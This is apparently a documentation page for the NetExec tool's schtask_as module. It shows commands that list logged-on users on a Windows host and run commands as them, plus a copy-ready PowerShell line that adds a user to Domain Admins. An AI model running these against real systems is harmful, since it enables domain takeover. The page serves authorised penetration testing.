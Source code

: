 ```yaml
---
description: >-
  Use Sessions from logged-on Users to execute arbitrary commands using
  schtask_as
---
```


# 🆕 Impersonate logged-on Users



{% hint style="warning" %}
You need at least local admin privilege on the remote target
{% endhint %}

The Module schtask\_as can execute commands on behalf on other users which has sessions on the target, thanks to the contribution from [@Defte\_](https://twitter.com/Defte\_).

### 1. Enumerate logged-on users on your Target

```
nxc smb <ip> -u <localAdmin> -p <password> --loggedon-users
```

### 2. Execute commands on behalf of other users

```
nxc smb <ip> -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
```

<figure><img src="../.gitbook/assets/schtask_as.png" alt=""><figcaption></figcaption></figure>

Custom command to add an user to the domain admin group for easy copy\&pasting:&#x20;

```
powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"
```
